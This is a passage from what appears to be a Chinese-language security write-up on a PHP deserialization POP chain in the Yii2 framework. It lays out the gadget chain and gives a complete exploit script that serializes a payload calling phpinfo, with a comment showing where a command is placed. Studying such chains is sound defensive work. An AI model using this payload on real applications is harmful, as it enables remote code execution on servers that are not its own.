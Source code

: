    ```php
       public function run()
       {
           if ($this->checkAccess) {
               call_user_func($this->checkAccess, $this->id);
           }
   
           return $this->prepareDataProvider();
       }
   ```

于是就可以构造完整的 `pop`链

```php
yii\db\BatchQueryResult::__destruct()->reset()->close()
->
Faker\Generator::__call()->format()->call_user_func_array()
->
\yii\rest\IndexAction::run->call_user_func()
```

Exp

```php
<?php
namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'phpinfo';
            $this->id = '1';           //command
        }
    }
}

namespace Faker{
    use yii\rest\IndexAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            $this->formatters['close'] = [new IndexAction, 'run'];
        }
    }
}

namespace yii\db{
    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;

        public function __construct(){
            $this->_dataReader = new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
}
?>
```
